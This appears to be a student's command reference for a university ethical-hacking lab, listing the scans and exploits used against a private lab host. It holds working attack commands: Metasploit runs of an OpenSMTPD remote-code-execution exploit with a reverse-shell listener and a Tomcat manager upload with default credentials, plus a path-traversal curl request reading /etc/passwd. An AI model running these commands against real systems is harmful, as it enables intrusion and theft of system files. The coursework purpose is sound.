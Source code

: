 # ICT387 Ethical Hacking Command Reference

This file contains all commands used in the final penetration testing report. Each command is prepended with timestamp and student ID for traceability.

---

## 🔹 Environment Setup

```bash
date && echo "StudentID: 34658965" && echo ""
sudo apt update && sudo apt install -y nmap nikto gobuster ftp
```

---

## 🔹 Nmap Scanning

### Full Port Scan
```bash
date && echo "StudentID: 34658965" && echo ""
sudo nmap -Pn -p- 192.168.56.145 -oN all-port-scan.txt
```

### Nmap Vulnerability Script Scan
```bash
date && echo "StudentID: 34658965" && echo ""
nmap -T4 -Pn -p21,22,23,25,80,139,445,8888 -sV --script vuln 192.168.56.145 -oN script-vuln-sV-scan.txt
```

---

## 🔹 Nessus Vulnerability Scan
*Use the GUI to upload scan results and extract key vulnerabilities manually.*
```bash
date && echo "StudentID: 34658965" && echo ""
# Manual step: Review Nessus file 192_168_56_145_45oks7.pdf
```

---

## 🔹 Web Enumeration

### Gobuster Directory Brute-Forcing
```bash
date && echo "StudentID: 34658965" && echo ""
gobuster dir -u http://192.168.56.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

### Nikto Web Misconfiguration Scan
```bash
date && echo "StudentID: 34658965" && echo ""
nikto -h http://192.168.56.145
```

---

## 🔹 Exploitation

### OpenSMTPD RCE - CVE-2020-7247
```bash
date && echo "StudentID: 34658965" && echo ""
msfconsole -q -x 'use exploit/unix/smtp/opensmtpd_mail_from_rce; set RHOSTS 192.168.56.145; set LHOST 192.168.56.142; set LPORT 4444; run'
```

### FTP Anonymous Access
```bash
date && echo "StudentID: 34658965" && echo ""
ftp 192.168.56.145
# Login: anonymous
ls
get fix_logging.txt
```

### Apache RCE Attempt - CVE-2021-41773
```bash
date && echo "StudentID: 34658965" && echo ""
curl -v --path-as-is http://192.168.56.145/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

### Tomcat Manager Upload Attempt
```bash
date && echo "StudentID: 34658965" && echo ""
msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload; set RHOSTS 192.168.56.145; set RPORT 8080; set HttpUsername tomcat; set HttpPassword tomcat; run'
```

---

## 🔹 Additional Notes

* Always run enumeration first before exploiting.
* Replace IP addresses as needed.
* Maintain logs with timestamps and Student ID in every terminal session.
* Review Nessus/Nmap output files manually for detailed CVE correlation.

---
